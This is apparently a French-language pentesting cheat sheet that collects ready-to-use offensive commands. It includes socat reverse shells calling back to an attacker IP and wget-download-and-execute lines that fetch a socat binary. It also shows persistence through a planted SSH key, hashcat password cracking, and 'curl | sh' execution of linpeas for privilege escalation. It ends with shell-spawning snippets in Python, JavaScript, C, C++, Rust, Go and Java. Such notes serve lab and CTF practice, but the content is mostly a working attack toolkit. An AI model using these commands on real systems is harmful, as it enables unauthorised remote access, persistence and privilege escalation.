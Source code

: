 # Dans un reverse shell

## Upgrade a reverse shell to a fully TTY interactive shell

Sometimes we will get a shell but it won't be very convenient. There are some ways to upgrade your shells to interactive TTY reverse shell
if you want a quick dirty little fix but not completely interactive this python command works well for python3
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo; fg
```

## With socat
On your kali
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4440
```
From the victime machine
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:my_ip:4440 
```

If socat is not installed see here for static binaries
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:my_ip:4440
```
OR
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```
In your kali then put on your python3 webserver
and then 
```bash
wget -q http://YOUR-KALI-IP/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR-KALI-IP:4440
```

## Pour avoir un accès ssh

```bash
ssh-keygen -f mykey
# No passphrase
mykey & mykey.pub
mv mykey.pub ~/.ssh/authorized_keys
# Copy mykey to local machine in the .ssh folder
nano mykey # and paste the private key
sudo chmod 600 mykey

ssh -i mykey user@ip
```


# Détecter un hash 

```bash
hashcat hashPWD.txt rockyou.txt

The following 11 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
    900 | MD4                                                 | Raw Hash
      0 | MD5                                                 | Raw Hash
     70 | md5(utf16le($pass))                                 | Raw Hash
   2600 | md5(md5($pass))                                     | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                    | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))             | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                         | Raw Hash salted and/or iterated
   1000 | NTLM                                                | Operating System
   9900 | Radmin2                                             | Operating System
   8600 | Lotus Notes/Domino 5                                | Enterprise Application Software (EAS)


```

Puis sélectionner le # de l'algo de hashage
Exemple avec RAW MD5
```bash
hashcat -m 0 hashPWD.txt rockyou.txt
```

# Privilege Escalation

## Linux

`sudo -l`

Link Linpeas : https://github.com/carlospolop/PEASS-ng/releases/tag/20230529-e7da582f

`python -m http.server 80 -> curl mon_ip/linpeas.sh | sh`

`find / -perms -4000 -type f 2>/dev/null`
`find / -type f -perm -04000 -ls 2>/dev/null`
`find / -perm -4000 2>/dev/null`
`find / -writable ! -user whoami -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null`


```py
import subprocess
subprocess.call("/bin/sh")
```
```js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```cpp
#include <cstdlib>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```rust
use std::process::Command;

fn main() {
    Command::new("/bin/sh")
        .status()
        .expect("Failed to execute command");
}
```
```go
package main

import (
	"os"
	"os/exec"
)

func main() {
	cmd := exec.Command("/bin/sh")
	cmd.Stdin = os.Stdin
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr
	cmd.Run()
}
```
```java
import java.io.IOException;

public class Main {
    public static void main(String[] args) {
        try {
            Process process = new ProcessBuilder("/bin/sh").inheritIO().start();
            process.waitFor();
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }
}
```
